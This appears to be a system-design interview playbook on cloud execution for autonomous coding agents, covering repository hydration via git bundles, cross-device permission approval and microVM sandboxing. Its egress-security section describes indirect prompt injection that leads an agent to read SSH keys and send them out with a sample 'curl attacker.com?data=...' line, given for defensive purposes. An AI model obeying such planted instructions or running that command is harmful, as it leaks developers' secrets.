





# Design Cloud & Remote Execution for Autonomous Coding Agents: Cross-Device Continuity, Fast Codebase Hydration & Zero-Trust Sandboxing

> [!IMPORTANT]
> **Production Code Engine & Verification Lab**:
> Fully implemented zero-dependency teleport seed bundler, sub-second remote hydrator, pre-warmed microVM sandbox pool, cross-device session continuity broker, asynchronous mobile push permission bridge, and differential resync engine.
> - **Walkthrough & Staff Playbook**: [`Volume-3/Walkthroughs/07-Cloud-Remote-Execution/walkthrough.md`](02-Interactive-Interview-Playbook.md)
> - **Production Python Engine**: [`Volume-3/Walkthroughs/07-Cloud-Remote-Execution/remote_execution_engine.py`](remote_execution_engine.py)
> - **Verification Suite**: `python3 remote_execution_engine.py --test` (100% Passing)
> - **Hydration & Shredding Benchmark**: `python3 remote_execution_engine.py --benchmark` (132,411.8 Sessions/sec)

## Problem Statement

Design a production-grade, enterprise-scale **Cloud & Remote Execution Architecture for Autonomous Coding Agents** that decouples agent reasoning and code execution from the developer's physical laptop. 

While first-generation coding assistants ran locally on developer machines, production autonomous coding agents (such as **Claude Code Remote**, **GitHub Copilot Workspace**, **Google Antigravity Cloud Runners**, and **Factory Droids**) must support long-running, asynchronous tasks that run independently in secure cloud environments.

### The "Laptop Lid" Problem & Core Challenges
1. **The Laptop Lid Problem & Cross-Device Continuity**: A developer launches a 45-minute refactor or end-to-end test generation task on their laptop terminal. When they close their laptop to commute, the task must not terminate. It must seamlessly transition to a secure cloud sandbox, stream progress in real time, and allow the developer to monitor progress, steer execution, or grant tool permissions directly from their **smartphone**.
2. **Sub-Second Codebase & Dirty State Hydration**: Real-world enterprise repositories are tens of gigabytes in size and contain uncommitted, dirty working-tree changes (`WIP`). The cloud sandbox cannot spend 15 minutes performing a fresh `git clone`. The architecture must snapshot, bundle, and hydrate the repository and dirty state into an isolated remote container in **$< 5\text{ seconds}$**.
3. **Asynchronous Remote Permission Bridge**: When an autonomous agent in the cloud attempts a destructive or sensitive operation (e.g., executing a database migration, running `rm -rf`, or pushing code), it must pause safely without holding compute locks, dispatch a push notification to the developer's mobile device, and resume immediately upon cryptographic approval.
4. **Enterprise Security, Isolation & Zero-Data-Retention**: Executing untrusted code, installing arbitrary third-party dependencies, and running shell commands in the cloud introduces severe risks: container breakout, lateral network movement, SSRF attacks, and source code exfiltration via prompt injection. The architecture must enforce microVM hardware isolation, air-gapped network policies, and Zero Data Retention (ZDR) guarantees.

---

## How Frontier Coding Agents Solve This Today: Real-World Implementations

We examine the exact architectures implemented in top-tier coding tools:

```
┌───────────────────────────────────────────────────────────────────────────────────────────┐
│                      HOW POPULAR CODING AGENTS IMPLEMENT CLOUD RUNNERS                    │
├────────────────────┬──────────────────────────────────────────────────────────────────────┤
│ 1. Claude Code     │ • Teleport Engine: Uses adaptive Git seed bundles with WIP stashes.  │
│    Remote (CCR)    │ • RemoteSessionManager: Coordinates WebSocket events & HTTP control. │
│                    │ • RemotePermissionBridge: Dispatches SDKControlPermissionRequest     │
│                    │   to mobile/laptop viewers; supports headless "viewerOnly" mode.     │
├────────────────────┼──────────────────────────────────────────────────────────────────────┤
│ 2. GitHub Copilot  │ • Cloud Devcontainers: Spawns ephemeral Azure/Codespace containers.  │
│    Workspace       │ • Cross-Device Relay: GitHub Mobile iOS/Android app surfaces         │
│                    │   interactive action sheets for plan approval and task resumption.   │
├────────────────────┼──────────────────────────────────────────────────────────────────────┤
│ 3. Google          │ • Remote Execution Sidecars: Decouples IDE from cloud runners.       │
│    Antigravity     │ • Mobile Companion Nodes: Connects mobile devices over WebRTC/WS for │
│    (AGY)           │   push-based approval modals (ask_question) and live trace streaming.│
├────────────────────┼──────────────────────────────────────────────────────────────────────┤
│ 4. OpenCode        │ • Headless Daemon + OpenCode Mobile: Self-hosted server with         │
│                    │   Android client connecting over a secure Tailscale WireGuard mesh.  │
├────────────────────┼──────────────────────────────────────────────────────────────────────┤
│ 5. Factory Droids  │ • Ephemeral Firecracker MicroVMs: Cloud-first multi-droid pipeline   │
│    & Devin         │   executing in hardware-isolated microVMs with browser/PWA control.  │
└────────────────────┴──────────────────────────────────────────────────────────────────────┘
```

### Decompiled Insight: Claude Code Remote (CCR) & Teleport Architecture
Inspection of Claude Code's internal engine reveals the **Teleport & CCR Bridge Pattern**:
1. **Dirty State Capture via Git Bundle**: Rather than pushing an unfinished branch to a public remote, Claude Code executes:
   $$\text{git stash create} \longrightarrow \text{update-ref refs/seed/stash} \longrightarrow \text{git bundle create --all}$$
   If `--all` exceeds byte limits (default: $100\text{ MB}$), it gracefully falls back to `HEAD`, and finally to a parentless `squashed-root` snapshot tree that bakes uncommitted changes directly into a single root commit.
2. **Seed Bundle Upload**: The bundle is uploaded to Anthropic's file storage API (`/v1/files`), returning a `seed_bundle_file_id`.
3. **CCR Container Spin-up**: The cloud worker provisions a container, downloads the bundle, unpacks the refs, applies `git stash pop`, and restores the exact working directory state in under 3 seconds.
4. **Remote Permission Bridge (`remotePermissionBridge.ts`)**: When the cloud container attempts a tool call requiring authorization, it emits an `SDKControlPermissionRequest`. The client (laptop or mobile phone) receives the request over a WebSocket, renders a synthetic `AssistantMessage`, and replies with `{ behavior: 'allow' | 'deny' }`.

---

## Requirements Clarification

| # | Candidate Clarification Question | Interviewer Answer |
|---|---|---|
| 1 | What is the latency requirement for mobile push approvals? | Notification delivery to device: **< 1.5s**. User tap to cloud container resumption: **< 300ms**. |
| 2 | How large are the codebases being teleported to the cloud? | Repositories range from small scripts (10 MB) to enterprise monorepos (**up to 50 GB**, with an average active working set of **200 MB**). |
| 3 | How long can a cloud execution session run? | From **5 minutes** (quick test generation) to **6 hours** (massive multi-package migration). |
| 4 | Can a user reconnect from their laptop after approving on mobile? | **Yes.** Session state must be centrally synchronized; multiple clients (laptop, phone, tablet) can view and steer the same active run. |
| 5 | What happens if the mobile user doesn't respond to a permission prompt? | Configurable timeout (default: **15 minutes**). On timeout, the container halts the tool call, marks it denied, and continues with alternative planning or suspends. |
| 6 | What are the network egress rules for cloud containers? | Strict **default-deny**. Containers cannot access internal cloud VPC metadata (`169.254.169.254`) or arbitrary public IPs, routed only via an authenticated smart proxy. |

### Functional Requirements

1. **One-Click Cloud Teleportation**: Package and ship local repository state, branch history, and uncommitted dirty working files to an ephemeral cloud container in $< 5\text{ seconds}$.
2. **Cross-Device Session Continuity**: Centralized session broker allowing seamless switching between Laptop CLI, Web Browser, and Mobile iOS/Android apps without interrupting active agent tasks.
3. **Mobile Remote Permission Bridge**: Real-time push notifications (APNs / FCM) for tool confirmations (bash commands, file writes, package installs) with one-tap allow/deny controls.
4. **Pre-Warmed MicroVM Sandbox Pool**: On-demand provisioning of hardware-isolated execution environments (Firecracker / gVisor) with sub-second cold starts.
5. **Real-Time Terminal & Telemetry Streaming**: Bi-directional streaming of bash outputs, compiler diagnostics, and agent thoughts to all connected client devices.
6. **Clean State Synchronization Back to Laptop**: When the developer re-opens their laptop, download the verified Git changes and working tree diffs seamlessly.

### Non-Functional Requirements

- **Zero Data Retention (ZDR)**: Source code is never retained in permanent storage or used for model training; ephemeral sandboxes are cryptographically shredded upon task termination.
- **High Availability**: Cloud orchestrator must survive node failures without killing running agent sandboxes.
- **Air-Gapped Isolation**: Hardware-level microVM boundaries blocking kernel exploits, SSRF, and lateral network traversal.

---

## Key Architectural Decisions: Evolutionary Trade-Offs

```mermaid
graph TD
    classDef naive fill:#ffebee,stroke:#c62828,stroke-width:1px;
    classDef intermediate fill:#fff8e1,stroke:#f57f17,stroke-width:1px;
    classDef battleTested fill:#e8f5e9,stroke:#2e7d32,stroke-width:2px;

    subgraph "1. Codebase & Dirty State Hydration"
        H1["Full Remote Git Clone<br/>(Slow 5-15 min clone, drops uncommitted edits)"]:::naive --> H2["Rsync over SSH / Tarball Upload<br/>(Heavy bandwidth, no Git DAG awareness)"]:::intermediate
        H2 --> H3["Adaptive Git Seed Bundles with Stash Refs<br/>(Sub-3s teleport, bakes uncommitted WIP, auto-fallback)"]:::battleTested
    end

    subgraph "2. Cross-Device Session Continuity"
        C1["Sticky SSH / Tmux Session<br/>(Fails on IP change, impossible on mobile)"]:::naive --> C2["Database Polling Loop<br/>(3-5s lag, high DB churn, no live streaming)"]:::intermediate
        C2 --> C3["Distributed Session Broker + Bi-directional WebSockets<br/>(Sub-50ms sync, multi-device pub/sub, auto-reconnect)"]:::battleTested
    end

    subgraph "3. Remote Tool Permission & HITL"
        P1["Bypass Permissions in Cloud (Auto-Approve All)<br/>(Catastrophic security risk: RM -RF production)"]:::naive --> P2["Synchronous Blocking HTTP Polling<br/>(Ties up worker threads, drops on mobile sleep)"]:::intermediate
        P2 --> P3["Asynchronous Push Bridge with Signed Capability Tokens<br/>(Instant APNs/FCM wake, zero idle compute, cryptographic verify)"]:::battleTested
    end

    subgraph "4. Cloud Sandboxing & Security"
        S1["Shared Multi-Tenant Docker Host<br/>(Container breakout escapes to host, noisy neighbors)"]:::naive --> S2["Full On-Demand Cloud VM (AWS EC2)<br/>(2-minute boot time, massive billing waste)"]:::intermediate
        S2 --> S3["Pre-Warmed MicroVM Pool (Firecracker / gVisor)<br/>(Sub-100ms boot, hardware virtualization, memory snapshots)"]:::battleTested
    end
```



---

### Decision 1: Codebase & Dirty State Hydration Strategy

* **Core Goal**: Transport the developer's local project state (including uncommitted files, modified buffers, and git history) to the cloud sandbox instantly.

| Strategy | Speed on 1 GB Repo | Handles Uncommitted WIP? | Network Overhead | Used By |
|---|---|---|---|---|
| **1. Fresh Remote `git clone`** | **Very Slow** (45s–3 mins) | ❌ **No** (Only sees pushed commits; WIP lost) | High (Clones entire history) | Early CI/CD bots |
| **2. Tarball / Rsync Archive** | **Slow** (20–40s) | ✅ Yes (Zips entire directory) | Very High (Uploads `node_modules`, binaries) | Simple Web IDEs |
| **3. Adaptive Git Seed Bundle (Winning)** | **Ultra-Fast** (**1.2–3.5s**) | ✅ **Yes** (Captures uncommitted changes via temporary stash refs) | **Ultra-Low** (Only packs Git objects + WIP diffs; ignores `.gitignore`) | **Claude Code Remote (CCR), Google AGY** |

---

### Decision 2: Cross-Device Session Broker & Permission Bridge

* **Core Goal**: Maintain an active agent run while allowing laptops, web dashboards, and mobile devices to view progress and grant tool permissions concurrently.

| Strategy | Architecture | Latency | Mobile Suitability | Reliability |
|---|---|---|---|---|
| **Sticky SSH / Tmux** | Client connects directly to VM shell. | Low | ❌ Unusable on iOS/Android background | Drops connection on WiFi/Cellular handoff. |
| **Central Database Polling** | State polled via REST every 2 seconds. | High (2–5s) | ⚠️ Acceptable but drains battery | High DB write lock contention at scale. |
| **Distributed Session Broker (Winning)** | Event-sourced message broker with WebSocket fan-out and APNs push triggers. | **Ultra-Low (< 50ms)** | ✅ **Native Mobile Support** with background push | Zero lost events; seamless client reconnects. |

---

## High-Level System Architecture



---

## Low-Level Design & Deep Dives

### Deep Dive 1: The Adaptive Git Seed Bundle Algorithm

How does a local CLI ship a repository with uncommitted dirty changes to a remote container without creating Git commits or uploading gigabytes of `.git` history?



#### Optimization for Massive Monorepos (Sparse Checkout + S3 Tree Cache)
For 50 GB monorepos, even seed bundles are too slow. Production systems employ **Sparse Hydration**:
1. The cloud runner maintains pre-cloned, warm Git object caches of the repository's `main` branch on shared EBS/NFS storage.
2. The local CLI uploads only the **git tree diff** between local `HEAD` and remote `origin/main` ($\sim 2\text{ MB}$ patch).
3. The remote sandbox attaches a Copy-on-Write overlay (`OverlayFS`) on top of the base cache and applies the diff instantaneously.

---

### Deep Dive 2: Cross-Device State Machine & Mobile Permission Bridge

When the cloud runner executes a sensitive tool, it must pause and seek authorization:



#### Cryptographic Authorization Tokens
To prevent unauthorized API spoofing, permission responses from the mobile app are signed using an on-device hardware enclave key (**Apple Secure Enclave / Android Keystore**):
$$\text{Signature} = \text{Sign}_{K_{\text{device}}}(\text{request\_id} \parallel \text{action} \parallel \text{timestamp})$$
The Cloud Session Broker verifies the signature against the user's paired public keys before unlocking the microVM.

---

### Deep Dive 3: Pre-Warmed MicroVM Sandbox Fleet Management

Spawning standard cloud VMs takes 30–60 seconds, which is unacceptable for interactive coding agents. The **Pre-Warmed Pool Manager** maintains a hot fleet of **Firecracker microVMs** or **gVisor containers**:



#### MicroVM Isolation Boundaries:
- **Dedicated Virtual Machine**: Unlike Docker containers that share the host Linux kernel, Firecracker microVMs run a dedicated minimal guest kernel with hardware virtualization (KVM).
- **Sub-120ms Boot Times**: Leveraging `snapshot-resume` technology, microVMs are restored directly from pre-booted memory images.
- **Resource Caps**: Each sandbox is strictly pinned via `cgroups v2` to 4 vCPUs, 8 GB RAM, and a 10 GB ephemeral root disk.

---

### Deep Dive 4: Egress Security & Anti-Exfiltration Proxy

A critical failure mode of cloud coding agents is **Indirect Prompt Injection**: an external dependency or web search contains hidden prompts that instruct the agent to read `~/.ssh/id_rsa` or API keys and transmit them to an external endpoint via `curl attacker.com?data=...`.



#### Defense-in-Depth Guardrails:
1. **Network Namespace Isolation**: The microVM has no direct network interfaces (`eth0`). All TCP/UDP traffic is redirected via a local `veth` pair into the **Smart Egress Proxy**.
2. **Dynamic Domain Allowlisting**: Requests to known developer hubs (`github.com`, `registry.npmjs.org`, `pypi.org`) are permitted. Arbitrary unknown IPs or dynamic DNS domains are blocked unless the developer explicitly approves an egress exception on their phone.
3. **Regex DLP Stream Inspection**: The proxy inspects outbound request headers and bodies, immediately terminating connections that match high-entropy patterns (AWS keys, OpenAI tokens, private keys).

---

## Database Schemas & Storage Layout

### 1. Remote Sessions & Ownership (PostgreSQL)

```sql
CREATE TABLE remote_agent_sessions (
    session_id          UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    tenant_id           VARCHAR(64) NOT NULL,
    user_id             VARCHAR(64) NOT NULL,
    repository_url      VARCHAR(256),
    active_branch       VARCHAR(128),
    status              VARCHAR(32) NOT NULL,    -- 'PROVISIONING', 'RUNNING', 'WAITING_PERMISSION', 'SUSPENDED', 'COMPLETED'
    vm_instance_id      VARCHAR(64),
    seed_bundle_s3_key  VARCHAR(256),
    created_at          TIMESTAMP WITH TIME ZONE DEFAULT NOW(),
    last_heartbeat_at   TIMESTAMP WITH TIME ZONE DEFAULT NOW()
);

CREATE TABLE remote_permission_requests (
    request_id         UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    session_id         UUID NOT NULL REFERENCES remote_agent_sessions(session_id) ON DELETE CASCADE,
    tool_name          VARCHAR(64) NOT NULL,
    command_input      JSONB NOT NULL,
    status             VARCHAR(32) NOT NULL,    -- 'PENDING', 'APPROVED', 'DENIED', 'TIMED_OUT'
    resolved_by_device VARCHAR(64),             -- 'laptop_cli', 'iphone_app', 'web_ui'
    created_at         TIMESTAMP WITH TIME ZONE DEFAULT NOW(),
    resolved_at        TIMESTAMP WITH TIME ZONE
);

CREATE INDEX idx_remote_sessions_active ON remote_agent_sessions(user_id, status);
CREATE INDEX idx_permissions_pending ON remote_permission_requests(session_id, status);
```

### 2. Paired Mobile Devices (For APNs/FCM Push Delivery)

```sql
CREATE TABLE user_push_devices (
    device_id           VARCHAR(64) PRIMARY KEY,
    user_id             VARCHAR(64) NOT NULL,
    platform            VARCHAR(16) NOT NULL,     -- 'ios', 'android'
    push_token          TEXT NOT NULL,            -- APNs Device Token or FCM Registration Token
    public_signing_key  TEXT NOT NULL,            -- Ed25519 public key
    is_active           BOOLEAN DEFAULT TRUE,
    updated_at          TIMESTAMP WITH TIME ZONE DEFAULT NOW()
);
```

---

## Operational Excellence & Failure Modes

### 1. The Broken Laptop Reconnect (Syncing Changes Back)
* **Failure Mode**: The agent completes a large 30-file refactor in the cloud container while the developer was away. When the developer re-opens their laptop, their local working tree is stale and conflicting.
* **Mitigation**: **Two-Way Git Sync Protocol**:
  1. The cloud container commits its verified work to an ephemeral agent branch: `git commit -m "Agent refactor complete"`.
  2. When the laptop CLI reconnects, it detects the remote session status is `COMPLETED`.
  3. The laptop downloads the compressed patch or fetches the branch:
     `git fetch remote-agent refs/agent/sess_101:refs/agent/sess_101`
  4. The CLI presents a three-way merge review: `git diff HEAD...refs/agent/sess_101`, allowing the developer to accept or reject with a single keypress.

### 2. The Zombie Sandbox & Runaway Billing
* **Failure Mode**: A developer launches an autonomous agent task, closes their laptop, forgets about it, and the agent enters an infinite loop installing packages or calling LLMs for 12 hours.
* **Mitigation**:
  - **Inactivity Heartbeat Sweeper**: If no client (laptop or mobile) is actively connected, and the agent produces zero meaningful forward progress for 15 minutes, the task is paused.
  - **Strict Monetary & Step Quotas**: Every remote session carries a strict dollar cap (e.g., \$5.00 limit). When exhausted, the container pauses immediately and dispatches an emergency notification to the user's phone.

### 3. Mobile Push Delivery Delays
* **Failure Mode**: APNs or FCM experiences carrier latency, delaying a permission push notification by 10 minutes while the container sits idle.
* **Mitigation**: Dual-channel transport. When permission is needed, the broker fires both an APNs/FCM push and publishes to an active WebSocket topic. If the user has a web dashboard or secondary device open, the request renders in $<50\text{ ms}$ over WebSocket, bypassing push notification queues.

---

## Key Takeaways Checklist

> [!summary] Staff-Level Cloud & Remote Execution Checklist
> 1. **Adaptive Git Seed Bundles for Instant Teleportation**: Never rely on a fresh remote `git clone`. Package uncommitted working tree changes with `git stash create` and stream an adaptive Git bundle (`--all` $\rightarrow$ `HEAD` $\rightarrow$ `squashed-root`) to achieve $< 3\text{ second}$ remote environment hydration.
> 2. **Decouple the Agent Runtime from the Client**: Run the core execution loop inside an ephemeral cloud container, using a distributed WebSocket Session Broker to broadcast state to Laptops, Mobile Apps, and Web UIs simultaneously.
> 3. **Asynchronous Remote Permission Bridges**: When an agent needs authorization, emit an event-driven `SDKControlPermissionRequest` and suspend the container. Dispatch signed, high-priority mobile push notifications (APNs/FCM) allowing developers to approve shell commands from their phone.
> 4. **Pre-Warm MicroVMs for Sub-Second Cold Starts**: Maintain a warm pool of hardware-isolated **Firecracker / gVisor** sandboxes. Avoid the 45-second latency of full VM boots by restoring directly from pre-initialized memory snapshots.
> 5. **Lock Down Outbound Egress**: Intercept all container networking through a Smart Outbound Egress Proxy with domain allowlisting and real-time DLP regex scanning to prevent prompt injections from exfiltrating company secrets.
